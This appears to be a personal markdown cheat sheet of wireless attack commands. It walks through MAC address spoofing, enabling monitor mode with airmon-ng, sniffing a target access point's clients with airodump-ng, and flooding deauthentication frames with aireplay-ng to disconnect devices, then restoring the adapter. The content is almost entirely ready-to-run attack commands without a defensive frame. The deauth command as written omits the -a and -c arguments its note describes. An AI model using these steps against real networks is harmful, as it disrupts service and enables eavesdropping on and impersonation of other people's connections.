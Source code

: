 ### Changes MAC address

sudo ifconfig wlan0 down

sudo ifconfig wlan0 hw ether xx:xx:xx:xx:xx:xx

sudo ifconfig wlan0 up

*************************************************

### Check wireless card adapter

airmon-ng 

*************************************************

### Start airmon-ng by killing the processes in the background. Then use the command to start monitor mode on wlan0 (if that is the wcard you got from the first command)

airmon-ng check kill 
airmon-ng start wlan0 

*************************************************

### For monitoring

airodump-ng wlan0mon

*************************************************

### For monitoring a specific network's users (change channel to its channel and the mac address to the AP's)

airodump-ng --channel 6 --bssid xx:xx:xx:xx:xx:xx wlan0mon

*************************************************

### To deauth: Change 2000 to a higher number for a prolonged effect. Change the first MAC address to the one of the AP to impersonate (-a) and the second to the device's to deauth (-c). Think of -a for AP and -c for client

aireplay-ng --deauth 2000

*************************************************

### To stop and bring back the network adapter in managed mode (aka 'to see the wireless back')

airmon-ng stop wlan0mon
service networking restart
service network-manager restart

*************************************************
